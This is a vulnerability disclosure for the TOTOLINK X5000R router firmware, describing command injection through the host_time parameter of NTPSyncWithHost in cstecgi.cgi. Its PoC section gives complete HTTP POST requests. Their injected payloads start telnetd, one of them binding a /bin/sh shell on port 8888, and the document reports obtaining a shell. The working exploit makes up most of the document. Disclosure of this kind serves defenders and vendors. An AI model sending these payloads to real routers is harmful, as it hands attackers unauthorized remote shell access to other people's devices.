





# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `NTPSyncWithHost` function,`host_time` is directly passed by the attacker, so we can control the `host_time` to attack the OS.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `host_time` as **';/usr/sbin/telnetd;'** , and the router will excute it, such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/time.html?time=1639032360781
Cookie: SESSION_ID=2:1420071268:2

{"host_time":"';/usr/sbin/telnetd;'","topicurl":"NTPSyncWithHost"}
```

<div  align="center"></div>

We set `host_time` as **';telnetd -l /bin/sh -p 8888 -b 0.0.0.0;'** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 86
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/time.html?time=1639032360781
Cookie: SESSION_ID=2:1420071268:2

{"host_time":"';telnetd -l /bin/sh -p 8888 -b 0.0.0.0;'","topicurl":"NTPSyncWithHost"}
```

<div  align="center"></div>


## Result

The target router has enabled the telnet service.

<div  align="center"></div>

Get a shell!

<div  align="center"></div>

